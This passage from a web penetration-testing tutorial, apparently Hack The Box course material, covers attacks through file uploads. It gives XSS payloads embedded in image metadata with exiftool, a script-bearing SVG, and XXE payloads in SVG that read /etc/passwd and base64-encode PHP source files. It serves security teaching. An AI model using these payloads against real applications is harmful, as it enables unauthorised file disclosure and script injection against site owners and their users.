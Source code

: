 Another example of XSS attacks is web applications that display an image's metadata after its upload. For such web applications, we can include an XSS payload in one of the Metadata parameters that accept raw text, like the `Comment` or `Artist` parameters, as follows:

```shell
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
exiftool HTB.jpg
...SNIP...
Comment                         :  "><img src=1 onerror=alert(window.origin)>
```


 Furthermore, if we change the image's MIME-Type to `text/html`, some web applications may show it as an HTML document instead of an image, in which case the XSS payload would be triggered even if the metadata wasn't directly displayed.

Finally, XSS attacks can also be carried with `SVG` images, along with several other attacks.

 For this reason, we can modify their XML data to include an XSS payload. For example, we can write the following to `HTB.svg`:


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

## XXE

 The following example can be used for an SVG image that leaks the content of (`/etc/passwd`):
 
 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

While reading systems files like `/etc/passwd` can be very useful for server enumeration, it can have an even more significant benefit for web penetration testing, as it allows us to read the web application's source files

To use XXE to read source code in PHP web applications, we can use the following payload in our SVG image:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

Using XML data is not unique to SVG images, as it is also utilized by many types of documents, like `PDF`, `Word Documents`, `PowerPoint Documents`, among many others. All of these documents include XML data within them to specify their format and structure.
